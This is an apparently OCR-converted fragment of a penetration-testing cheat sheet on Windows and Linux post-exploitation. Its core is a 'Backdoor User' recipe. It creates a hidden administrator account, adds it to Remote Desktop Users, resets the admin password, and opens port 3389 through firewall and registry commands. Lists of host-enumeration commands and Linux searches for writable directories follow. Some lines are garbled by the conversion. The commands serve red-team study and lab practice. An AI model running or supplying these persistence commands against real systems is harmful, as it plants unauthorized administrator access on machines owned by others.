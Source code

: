 linux Post Exploitation:

> $ ifconfig

## POST EXPLOITATION WINDOWS

Backdoor User:

> $ net user backdoor backdoor@123 /add  
> $ net localgroup administrators backdoor /add  
> $ net localgroup "Remote Desktop Users" backdoor /add  
> $ net user admin newpassword  
> Enabling RDP  
> $ netsh firewall add portopening TCP 3389 "Open Port 3389" ENABLE ALL  
> $ netsh firewall set portopening TCP 3389 proxy ENABLE ALL  
> $ netsh firewall set service RemoteDesktop enable  
> $ reg add "HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 0 /f

Disable RDP

> $ reg add "HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 1 /f  
> $ netsh firewall delete portopening protocol=TCP port=3389

Check log files of some of the services:

> $ http  
> $ ftp  
> $ ssh

Windows Post Exploitation:

> $ Arp -a  
> $ netstat -ano  
> $ ipconfig /all  
> $ route print  
> $ schtasks /query /fo LIST /v  
> $ netsh firewall show config  
> $ Net group  
> $ Net localgroup  
> $ \(for /R ".\" %A in \(\*.txt\) do echo %~fA %~zA\) \| findstr /v "echo  
> $ Net share  
> $ Power shell to Enumerate users and computers using powershell

## USEFUL LINUX COMMANDS

Find file by name:

> $ find /home/username/ -name "\*.err"

Find writable directories:

> $ find / -perm -o+w  
> $ find . -perm -o+w -exec chmod +t {} +  
> $ find / -writable  
> $ find / -type d \\( -perm -g+w -or -perm -o+w \\) -exec ls -adl {} \; \| grep drwxrwsr
